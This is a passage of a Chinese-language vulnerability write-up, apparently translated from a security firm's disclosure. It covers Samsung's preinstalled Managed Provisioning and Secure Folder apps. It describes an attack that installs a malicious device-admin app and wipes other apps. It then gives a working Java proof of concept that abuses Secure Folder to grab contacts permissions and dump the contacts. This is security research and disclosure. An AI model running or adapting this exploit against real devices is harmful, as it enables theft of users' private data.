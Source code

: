 打开应用程序后，发生了以下情况：


1. Managed Provisioning 被迫从攻击者指定的链接下载恶意应用程序
2. 步骤 1 中安装的恶意应用程序被设置为具有任意权限的设备管理员
3. 启动了一个过程，该过程将删除安装在同一设备上的所有其他应用程序。


攻击看起来是这样的：
<video id="video" controls="" preload="none" width="100%">
      <source id="mp4" src="https://img.vjob.top/imgs/ddosi.com_.mp4" type="video/mp4">
</video>


安全文件夹中的漏洞
---------


安全文件夹是预装在三星设备上的安全文件存储应用程序。它拥有大量权限，攻击者可以通过利用在访问[任意*内容提供程序中](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)发现的漏洞来拦截这些权限：


[![黑客可以利用三星预装的应用程序来监视用户](https://img.vjob.top/imgs/vjob_3-5.png)](https://www.ddosi.org/wp-content/uploads/2021/06/3-5.png)
一旦攻击者收到他们发送的意图，他们就能够拦截权限。


作为 PoC，我们拦截了读/写联系人的权限：



```
protected void onCreate(Bundle savedInstanceState) {
   super.onCreate(savedInstanceState);

   Intent i = new Intent();
   i.setClassName("com.samsung.knox.securefolder", "com.samsung.knox.securefolder.containeragent.ui.settings.KnoxSettingCheckLockTypeActivity");
   i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
   i.setData(ContactsContract.RawContacts.CONTENT_URI);
   startActivityForResult(i, 0);
}

protected void onActivityResult(int requestCode, int resultCode, Intent data) {
   super.onActivityResult(requestCode, resultCode, data);

   dump(data.getData());
}

private void dump(Uri uri) {
   Cursor cursor = getContentResolver().query(uri, null, null, null, null);
   if (cursor.moveToFirst()) {
       do {
           StringBuilder sb = new StringBuilder();
           for (int i = 0; i < cursor.getColumnCount(); i++) {
               if (sb.length() > 0) {
                   sb.append(", ");
               }
               sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
           }
           Log.d("evil", sb.toString());
       }
       while (cursor.moveToNext());
   }
}
```

